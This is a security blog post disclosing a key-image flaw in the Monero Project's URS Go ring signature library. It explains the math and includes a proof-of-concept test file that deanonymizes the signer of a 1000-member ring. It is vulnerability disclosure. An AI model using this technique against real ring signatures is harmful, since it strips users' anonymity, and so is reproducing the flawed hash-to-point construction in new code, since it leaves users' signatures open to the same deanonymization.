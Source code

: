 ```yaml
---
layout: post
tumblr_id: 1121203386  
date: 2017-10-17 09:00:00 UTC
title: Unique Ring Signatures (URS) - broken cryptography
---
```


**Disclaimer:** the vulnerable code is <b>not</b> critical to the Monero cryptocurrency. 
The code is in no way or form used in the reference client of the CryptoNote protocol.
However the code is managed by the Monero Project. The repository is under the name of the project so it should be held to some standards.
Having old code laying around and disregarding it is not very smart. 


<hr />

The repository we analyzed is [Unique Ring Signature (URS)](https://github.com/monero-project/urs), a Golang implementation of traceable ring signatures.

The consequences of the vulnerability are sadly quite harsh, it results in **complete deanonymization of a ring signature**.
Basically the worst case scenario for this specific cryptographic construct.

The bug resides in constructing the KeyImage, more specifically in how it maps a hash to a point on the curve.

Currently the implementation does the following

$$H_p = (SHA256)(P_i) \cdot G$$

instead of mapping the hash to the curve indeterministically (logarithm unknown).

The **KeyImage** is equal to

$$I = x_i \cdot H_p(P_i)$$


then combining both formulas results in 

$$I = x_i \cdot (SHA256)(P_i) \cdot G$$

due to the commutative nature of scalar multiplication (in this particular instance) and keeping in mind that the public key is equal to 
$$P_i = x_i \cdot G$$, we get the following equation: 

$$I = P_i \cdot H_p(P_i)$$

An attacker is able to calculate the keyimage for all public keys of the ring and then match it with the one provided by the ring signature.

This is the same type of KeyImage bug that was discovered in [ShadowCash](https://web.archive.org/web/20160218042108/https://shnoe.wordpress.com/2016/02/11/de-anonymizing-shadowcash-and-oz-coin/).

<br />
### Exploit testcase
<hr>

When I discovered this bug I had no prior experience with Golang so I forwarded the issue over to **Tecnovert** to take a look at and verify that this was indeed the case.
He made a few additions to the existing testcase (urs_test.go). The modified version below will simply generate a ring signature with 1000 ring members and then deanonymize it.
You can easily check the additions to the test case [here](https://github.com/kewde/urs/commit/0998045192c0856d2120706a751e6f21f1c3a209). Note that **TestSign** is where the magic happens.



```golang
// Copyright 2014 Hein Meling and Haibin Zhang. All rights reserved.
// Additions made by tecnovert (Particl).
// Use of this source code is governed by the MIT
// license that can be found in the LICENSE file.

package main

import (
	"crypto/ecdsa"
	"crypto/elliptic"
	"crypto/sha256"
	crand "crypto/rand"
	"fmt"
	"math/rand"
	"runtime"
	"testing"
)

const numOfKeys = 1000

var (
	DefaultCurve = elliptic.P256()
	keyring      *PublicKeyRing
	testkey      *ecdsa.PrivateKey
	testmsg      []byte
	testsig      *RingSign
)

func TestGenerateKey(t *testing.T) {
	runtime.GOMAXPROCS(4)
	var err error
	testkey, err = GenerateKey(DefaultCurve, crand.Reader)
	if err != nil {
		fmt.Println(err.Error())
		t.FailNow()
	}
}

func TestNewPublicKeyRing(t *testing.T) {
	keyring = NewPublicKeyRing(1)
	keyring.Add(testkey.PublicKey)
	expectedLen := 1
	if len(keyring.Ring) != expectedLen {
		t.Errorf("len(keyring)=%d, expected %d", len(keyring.Ring), expectedLen)
	}
}

func TestPopulateKeyRing(t *testing.T) {
	keyring = NewPublicKeyRing(numOfKeys)
	rand.Seed(23)
	k := rand.Intn(numOfKeys)
	fmt.Println("Index of my key: ", k)
	for i := 0; i < numOfKeys; i++ {
		key, err := GenerateKey(DefaultCurve, crand.Reader)
		if err != nil {
			fmt.Println(err.Error())
			t.FailNow()
		}
		if i == k { // designate this as my key
			testkey = key
		}
		// add the public key part to the ring
		keyring.Add(key.PublicKey)
	}
	if len(keyring.Ring) != numOfKeys {
		t.Errorf("len(keyring)=%d, expected %d", len(keyring.Ring), numOfKeys)
	}
}

func TestSign(t *testing.T) {
	testmsg = []byte("Hello, world.")
	var err error
	testsig, err = Sign(crand.Reader, testkey, keyring, testmsg)
	if err != nil {
		fmt.Println(err.Error())
		t.FailNow()
	}

	fmt.Printf("testsig.hsx %s\n", testsig.X.String())
	fmt.Printf("testsig.hsy %s\n", testsig.Y.String())

	mR := append(testmsg, keyring.Bytes()...)

	c := keyring.Ring[0].Curve
	h := sha256.New()
	h.Write(mR)
	d := h.Sum(nil)

	fmt.Printf("looping through ring of %d\n", keyring.Len())
	for j := 0; j < keyring.Len(); j++ {

		rx, ry := c.ScalarMult(keyring.Ring[j].X, keyring.Ring[j].Y, d)

		//if testsig.X == rx && testsig.Y == ry {
		if testsig.X.String() == rx.String() && testsig.Y.String() == ry.String() {
			fmt.Printf("Found signing key: %d\nx: %s\ny: %s\n", j, rx.String(), ry.String())
		}
	}

}

func TestVerify(t *testing.T) {
	if !Verify(keyring, testmsg, testsig) {
		fmt.Println("urs: signature verification failed")
		t.FailNow()
	}
}

func BenchmarkSign(b *testing.B) {
	runtime.GOMAXPROCS(8)
	var err error
	for i := 0; i < b.N; i++ {
		testsig, err = Sign(crand.Reader, testkey, keyring, testmsg)
		if err != nil {
			fmt.Println(err.Error())
			b.FailNow()
		}
	}
}

func BenchmarkVerify(b *testing.B) {
	runtime.GOMAXPROCS(8)
	for i := 0; i < b.N; i++ {
		if !Verify(keyring, testmsg, testsig) {
			fmt.Println("urs: signature verification failed")
			b.FailNow()
		}
	}
}
```
